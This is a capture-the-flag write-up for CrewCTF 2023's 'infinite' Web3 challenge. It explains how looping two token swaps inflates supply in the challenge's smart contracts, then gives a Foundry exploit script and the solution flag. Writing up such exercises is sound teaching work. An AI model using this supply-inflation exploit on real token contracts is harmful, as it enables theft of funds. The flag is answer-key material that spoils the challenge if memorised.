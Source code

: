 ```yaml
---
title: Blockchain - infinite
description: 2023 | CrewCTF | Web3
tags:
    - smart contract
---
```


## Description

Infinite respect.

> nc infinite.chal.crewc.tf 60001

[:material-download: `infinite.tar.gz`](static/infinite.tar.gz)

## Solution

- To solve the challenge, we need to store more than 50 respect tokens in the `fancyStore` contract

    ```js
    function isSolved() public view returns (bool) {
        return STORE.respectCount(CREW.receiver())>=50 ;
    }
    ```

- The `respectToken` and `candyToken` contracts do not contain any significant information, as they are simple ERC20 token contracts that allow the owner to call the `mint()` and `burn()` functions
- The `crewToken` contract with a `mint()` function that can only be called once is the entry point

    ```js
    function mint() external {
        require(!claimed , "already claimed");
        receiver = msg.sender;
        claimed = true;
        _mint(receiver, 1);
    }
    ```

- Next, we can exchange 10 candy tokens with 1 crew token

    ```js
    function verification() public payable{
        require(crew.balanceOf(msg.sender)==1, "You don't have crew tokens to verify");
        require(crew.allowance(msg.sender, address(this))==1, "You need to approve the contract to transfer crew tokens");
        
        crew.transferFrom(msg.sender, address(this), 1);

        candy.mint(msg.sender, 10);
    }
    ```

- The respect tokens can be exchanged with candy tokens through `fancyStore.sellCandies()` or `localGang.gainRespect()`. But these two functions have a slight difference. The `sellCandies()` function burns candy tokens and transfers the respect tokens stored in the contract to msg.sender, while the `gainRespect()` function transfers the candy tokens from msg.sender and **mint** respect tokens to msg.sender. Thus, the total supply of respect tokens can be increased through `gainRespect()`. Similarly, we can increase the total supply of candy tokens through `fancyStore.buyCandies()`
- Start with 10 candy tokens, we can first exchange 10 respect tokens and increase `candyCount` through `localGang.gainRespect()`. Then, buy 10 candies and increase `respectCount` through `fancyStore.buyCandies()`. Now, we have obtained another 10 candies and transferred 10 respect tokens to the `fancyStore` contract XD Repeat these steps until `STORE.respectCount(CREW.receiver())` reaches the desired threshold

### Script

```js
/// forge script script/Infinite.s.sol --private-key $PRIVATE_KEY --rpc-url $RPC_URL --sig "run(address)" $INSTANCE_ADDR --broadcast
contract InfiniteScript is Script {

    function run(address instance) public {
        vm.startBroadcast();
        Setup setup = Setup(instance);
        crewToken crew = setup.CREW();
        respectToken respect = setup.RESPECT();
        candyToken candy = setup.CANDY();
        fancyStore store = setup.STORE();
        localGang gang = setup.GANG();

        crew.mint();

        crew.approve(address(store), 1);
        store.verification();

        candy.approve(address(gang), 50);
        respect.approve(address(store), 50);
        for (uint i; i < 5; ++i) {
            gang.gainRespect(10);
            store.buyCandies(10);
        }
        vm.stopBroadcast();
    }
}
```

### Flag

> crew{inf1nt3_c4n9i3s_1nfinit3_r3s9ect}
